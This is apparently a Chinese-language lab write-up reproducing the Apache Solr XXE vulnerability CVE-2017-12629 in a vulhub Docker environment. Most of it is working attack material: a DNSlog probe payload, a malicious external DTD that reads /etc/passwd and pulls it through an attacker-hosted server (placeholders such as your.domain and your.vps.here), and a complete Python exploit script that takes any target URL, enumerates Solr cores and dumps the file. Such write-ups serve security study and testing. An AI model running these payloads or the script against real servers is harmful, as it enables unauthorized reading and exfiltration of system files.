





# Apache Solr XML 实体注入漏洞 CVE-2017-12629

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 漏洞影响

```
Apache Solr < 7.1
Apache Lucene < 7.
```

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。



## 漏洞复现

先请求url地址获取 cores 内容：

```
http://your-ip:8983/solr/admin/cores
```




访问dnslog，验证漏洞是否存在（注意这里的`demo`是从上一步中得到的）：

```plain
http://your-ip:8983/solr/demo/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://xxxxx.ceye.io"><a></a>'}&wt=xml
```



查看dnslog得到请求，漏洞存在：



在自己的服务器上写入一个可访问的XML文件solr_xxe.dtd，内容写入：

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

然后请求这个文件来读取服务器上的文件：

```plain
http://your-ip:8983/solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.domain%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser

# 解码
/solr/demo/select?&q=<?xml version="1.0" ?><!DOCTYPE root[<!ENTITY % ext SYSTEM "http://your.domain/solr_xxe.dtd">%ext;%ent;]><r>&data;</r>&wt=xml&defType=xmlparser
```



注意这里的payload进行了url编码,请求的文件为`http://your.domain/solr_xxe.dtd`，有更多需求自行更改写入的xml文件。

## 漏洞POC

```
# solr_xxe.dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY data SYSTEM ':%file;'>">
```

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-

import requests
import sys
import json
import random

def POC_1(target_url):
    core_url = target_url + "solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        print('Core name: ', core_name)
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name, dnslog_url):
    dns_payload = """solr/%s/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "%s"><a></a>'}&wt=xml""" % (core_name, dnslog_url)
    vuln_url = target_url + dns_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
        if "HTTP ERROR 500" in response.text:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
        else:
            print("\033[32m[o] 请查看dnslog响应, DNSlog利用Url为：" + vuln_url + "/config\033[0m")
    except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

def POC_3(target_url, core_name):
    file_payload = """solr/{}/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root%5b%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2fyour.vps.here%2fsolr_xxe.dtd%22%3E%25ext%3b%25ent%3b%5d%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser""".format(core_name)
    vuln_url = target_url + file_payload
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }

    response = requests.request("GET", url=vuln_url, headers=headers, timeout=30)
    if "nologin" in response.text:
        print("\033[32m[o] 漏洞成功利用, Url为：/config\033[0m \n", vuln_url )
        print("\033[32m[o] 响应为: \n \033[0m",response.text)
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)   
    dnslog_url = 'http://{}.your.dnslog.here'.format(core_name)
    POC_2(target_url, core_name, dnslog_url)
    POC_3(target_url, core_name)
```


